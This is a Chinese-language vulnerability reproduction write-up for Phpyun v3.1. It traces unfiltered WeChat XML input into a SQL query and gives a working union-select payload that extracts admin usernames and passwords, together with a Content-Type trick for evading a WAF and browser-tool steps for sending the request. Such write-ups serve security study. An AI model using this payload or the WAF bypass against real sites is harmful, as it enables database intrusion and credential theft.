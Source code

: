Phpyun v3.1 xml 注入漏洞
========================

一、漏洞简介
------------

函数过滤不严谨，用户POST过去的内容没有进行任何过滤，导致攻击者可以利用XML实体进行注入，从而获取数据库敏感信息

二、漏洞影响
------------

3.1 build14061

三、复现过程
------------

### 漏洞分析

本次漏洞文件位于 `weixin/model/index.class.php` ，代码如下：

private function responseMsg() { \$postStr =
\$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\];

    if (!empty($postStr)){

                 $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
                  $fromUsername = $postObj->FromUserName;
                  $toUsername = $postObj->ToUserName;
                  $keyword = trim($postObj->Content);
                  $time = time();
                  $textTpl = "<xml>
         <![CDATA[%s]]>
         <![CDATA[%s]]>
         %s
         <![CDATA[%s]]>
         <![CDATA[%s]]>
         0
         </xml>";
      if(!empty( $keyword ))
                  {
                  $msgType = "text";
                   $contentStr = "Welcome to wechat world!";
                   $resultStr = sprintf($textTpl, $fromUsername, $toUsername, $time, $msgType, $contentStr);
                   echo $resultStr;
                  }else{
                   echo "Input something...";
                  }

          }else {
           echo "";
           exit;
          }
      }

这里将\$postStr = \$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\]，通过
simplexml\_load\_string解析后的内容，将其直接带入了\$textTpl。

然而\$postStr = \$GLOBALS\[\"HTTP\_RAW\_POST\_DATA\"\]
，直接获取了POST过来的XML内容，没有经过任何处理，并在最后将其输出。
if(\$MsgType==\'event\') { \$MsgEvent = \$postObj-\>Event; if
(\$MsgEvent==\'subscribe\') { \$centerStr =
\"\<!\[CDATA\[欢迎您关注\".iconv(\'gbk\',\'utf-8\',\$this-\>config\[\'sy\_webname\'\]).\"！/n
1：您可以直接回复关键字如【销售】、【南京 销售】、【南京 销售
XX公司】查找您想要的职位/n绑定您的账户体验更多精彩功能/n感谢您的关注！\]\]\>\";
\$this-\>MsgType = \'text\';

      }elseif ($MsgEvent=='CLICK')
      {
       $EventKey = $postObj->EventKey;
       if($EventKey=='我的帐号'){
        $centerStr = $this->bindUser($fromUsername);

       }elseif($EventKey=='我的消息')
       {
        $centerStr = $this->myMsg($fromUsername);
       }elseif($EventKey=='面试邀请')
       {
        $centerStr = $this->Audition($fromUsername);

       }elseif($EventKey=='简历查看')
       {

        $centerStr = $this->lookResume($fromUsername);

       }elseif($EventKey=='刷新简历')
       {

        $centerStr = $this->refResume($fromUsername);

从上述代码可以看出来，当满足那上面的条件后都会进入不同的相应的函数，但是都会进入一个名为`isBind`函数。

接下来追踪isBind函数：

private function isBind(\$wxid=\'\') {

    if($wxid)
    {
     $User = $this->obj->DB_select_once("member","`wxid`='".$wxid."'","`uid`,`username`");
    }
    if($User['uid']>0)
    {
     $User['bindtype'] = '1';
     $User['cenetrTpl'] = "<![CDATA[您的".iconv('gbk','utf-8',$this->config['sy_webname'])."帐号：".$User['username']."已成功绑定！ /n/n/n 您也可以config['sy_weburl']."/wap/index.php?m=login&wxid=".$wxid."/">点击这里进行解绑或绑定其他帐号]]>";

    }else{

     $Token = $this->getToken();
     $Url = 'https://api.weixin.qq.com/cgi-bin/user/info?access_token='.$Token.'&openid='.$wxid.'&lang=zh_CN';
     $CurlReturn  = $this->CurlPost($Url);
     $UserInfo    = json_decode($CurlReturn);

     $wxid        = $wxid;
     $wxname      = $UserInfo->nickname;
     $this->config['token_time'] = time();

     $User['cenetrTpl'] = '<![CDATA[您还没有绑定帐号，config['sy_weburl'].'/wap/index.php?m=login&wxid='.$wxid.'">点击这里进行绑定!]]>';
    }

    return $User;

    }

可以看到，从始至终wxid变量始终没有经过任何过滤，在第一行的`$wxid`就是我们传进来的FromUserName的值，可以直接进入SQL语句，进行任意注入。

因此我们可以针对其构造Payload，内容如下：

一般来说，我们只需要将Payload以POST形式的数据发出去，就可以成功的获取数据库敏感信息，但是服务器如果有WAF，提交的恶意数据必然会被拦截，因此，我们需要修改HTTP头，伪装成XML就可以不受到WAF的拦截：

    Content-type:text/xml;charset=utf-8

### 漏洞复现

我们首先打开目标站点，点击网页左侧注册按钮，首先注册一个账号：

![](./resource/Phpyunv3.1xml注入漏洞/media/rId26.gif)

这个时候已经是登录状态，我们按`F9` 调出 `Hack Bar`
的界面，点击`Enable Post data` ，将Payload写入输入框，如下图所示：

![](./resource/Phpyunv3.1xml注入漏洞/media/rId27.png)

#### payload文件:

##### 注:payload文件内容需手动输入相应位置

    <?xml version="1.0" encoding="utf-8"?>
      <xml>
        1111
        1111' and 1=2 union select 1,(select concat(username,password) from phpyun_member limit 0,1)#
        1402550611
        event
        CLICK
        我的账号
        0
      </xml>

接下来还需要修改HTTP头，伪装成XML，点击浏览器上方工具栏，打开`Tamper Data`
，点击启动。

![](./resource/Phpyunv3.1xml注入漏洞/media/rId30.gif)

现在前提工作已经做好，接下来重新访问网站，Tamper Data
就会抓取到数据包，再对数据包进行更改，操作如图：

![](./resource/Phpyunv3.1xml注入漏洞/media/rId31.gif)

然后点击确定就可以将构造好的数据包发出去：

![](./resource/Phpyunv3.1xml注入漏洞/media/rId32.gif)

成功获取管理员账号密码。

参考链接
--------

> <https://blog.csdn.net/whatiwhere/article/details/84862236>
